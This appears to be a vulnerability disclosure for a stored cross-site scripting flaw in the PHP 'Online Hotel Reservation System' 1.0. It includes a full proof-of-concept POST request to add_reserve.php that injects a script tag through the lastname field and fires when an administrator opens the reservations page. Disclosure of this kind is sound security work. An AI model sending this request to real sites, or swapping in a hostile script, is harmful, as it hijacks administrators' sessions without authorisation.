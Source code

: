 ## Online Hotel Reservation System has an XSS injection vulnerability

## Affected version:

Online Hotel Reservation System - 1.0

## Software:

https://code-projects.org/simple-online-hotel-reservation-system-in-php-with-source-code/

## Vulnerability File:

/HOR/add_reserve.php

## Description:

Any visitor user can send hotel reservation invitations containing XSS statements without logging in, exposing administrators to attacks when they view reservation orders.

Status: Moderate

POC

```
POST /HOR/add_reserve.php?room_id=6 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Length: 879
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/HOR/add_reserve.php?room_id=6
Cookie: PHPSESSID=db5no8dvip725j5p64esp3qbge
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="firstname"

xxxx
------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="middlename"

xxxx
------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="lastname"

<script>alert(123)</script>
------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="address"

xxxxx
------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="contactno"

xasfasf
------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="date"

xxx
------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4
Content-Disposition: form-data; name="add_guest"


------geckoformboundary94dbd00d4a9b5e0d7fcba4b66680e4b4--
```

access the following path:

```
HOR/admin/reserve.php
```

image:

![image](https://github.com/foreverfeifei/HOR-CVE/blob/main/Pasted%20image%2020251021141943.png)
